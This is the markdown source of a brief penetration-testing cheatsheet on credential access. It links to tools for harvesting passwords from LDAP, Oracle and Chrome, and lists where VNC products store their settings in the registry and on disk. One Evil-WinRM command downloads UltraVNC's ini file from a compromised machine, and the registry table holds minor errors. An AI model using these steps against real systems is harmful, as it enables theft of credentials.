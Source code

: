 ```yaml
---
layout: post
title: TA0006 Credentials Access - Miscellaneous
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-12-12
permalink: /:categories/:title/
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

<!-- vscode-markdown-toc -->
	* [Services](#Services)
	* [Web Browsers](#WebBrowsers)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


### <a name='Services'></a>Services
- [LDAP-Password-Hunter](https://github.com/oldboy21/LDAP-Password-Hunter)
- [ldapnomnom](https://github.com/lkarlslund/ldapnomnom)
- [oracle odat](https://github.com/quentinhardy/odat)

### <a name='Services'></a>Scheduled Tasks

### <a name='WebBrowsers'></a>Web Browsers

- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

### <a name='ImportExportTickets'></a>VNC

* VNC softwares properties :  

| software | registry key | folder |
|----------|--------------|--------|
| real vnc | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | |
| UltraVNC | | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /
```

## <a name='ImportExportTickets'></a>WinSCP